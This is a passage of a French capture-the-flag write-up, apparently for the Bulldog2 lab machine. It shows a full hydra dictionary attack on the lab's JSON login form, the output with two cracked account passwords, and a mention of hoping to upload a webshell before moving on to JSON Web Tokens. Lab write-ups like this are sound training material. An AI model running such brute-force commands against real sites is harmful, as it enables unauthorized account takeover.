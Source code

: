 Neuf utilisateurs ont été trouvés sur le site Internet de _Bulldog.social_, autant se focaliser sur eux et essayer de trouver leur mot de passe. Le wiki [SkullSecurity](https://wiki.skullsecurity.org/Passwords) propose un large panel de dictionnaires : le premier à être utilisé (au nom particulièrement évocateur) est 500-worst-passwords.txt.

```console
root@blinils:/media/sf_share/bulldog2# hydra -v -V -L users.txt -P 500-worst-passwords.txt -s 80 192.168.56.101 http-post-form "/users/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:F=401:H=Cookie: test:H=Content-Type: application/json:H=Accept: application/json, text/plain, */*:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Referer: http\://192.168.56.101/login:H=Connection: keep-alive" -w 2

<snip>

[DATA] max 16 tasks per 1 server, overall 16 tasks, 4500 login tries (l:9/p:500), ~282 tries per task

<snip>

[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "123456" - 1 of 4500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "password" - 2 of 4500 [child 1] (0/0)
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "12345678" - 3 of 4500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.101 - login "lrberna" - pass "1234" - 4 of 4500 [child 3] (0/0)
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.

<snip>

[80][http-post-form] host: 192.168.56.101   login: eivijay   password: 12345

<snip>

[80][http-post-form] host: 192.168.56.101   login: mdrudie   password: qwerty

<snip>

[STATUS] attack finished for 192.168.56.101 (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
```

Deux mots de passe ont été trouvés : ceux des comptes de Vijay Wells (eivijay) et de Rudie Ramirez (mdrudie). Néanmoins, une fois connecté sur leur profil respectif, aucune interaction ne semble autorisée : il n'est pas possible de modifier le pseudo, l'adresse e-mail enregistrée ou encore l'avatar. Dommage, la piste de l'upload d'un webshell semblait la plus probable. Poursuivons les investigations sur le site !

## Level up! avec les JSON Web Tokens

L'analyse des échanges avec Burp, entre le navigateur et le serveur permet d'avancer : 
un [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token) est créé avec les informations de l'utilisateur.
